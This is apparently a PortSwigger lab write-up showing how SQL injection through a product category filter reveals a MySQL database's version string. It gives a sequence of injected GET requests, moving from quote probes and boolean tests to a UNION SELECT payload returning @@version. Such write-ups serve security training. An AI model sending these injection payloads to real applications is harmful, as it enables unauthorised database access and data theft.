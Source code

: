 
# SQL injection attack, querying the database type and version on MySQL and Microsoft

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. (Make the database retrieve the string: '8.0.32-0ubuntu0.20.04.2')

---------------------------------------------
Reference: 
- https://portswigger.net/web-security/sql-injection/examining-the-database
- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------


Filtering using GET parameter “category”: "/filter?category=Accesories"

<img width="1283" height="863" alt="1" src="https://github.com/user-attachments/assets/3bac46cf-d13d-4cd4-bb21-6f9e8f2e3bb2" />


/filter?category=Accesories -> Return 4 items

/filter?category=Accessories';# -> Return 4 items, the query is finished

/filter?category=Accessories'+and+'1'='1  -> Return 4 items

/filter?category=Accessories'+and+'1'='0  -> Return 0 items

/filter?category=Accessories'+union+select+0,@@version#

```
/filter?category=Accessories'+union+select+0,@@version#
``` 

<img width="1534" height="832" alt="2" src="https://github.com/user-attachments/assets/706a6b72-4a5a-4647-924c-2db77e8dfc17" />

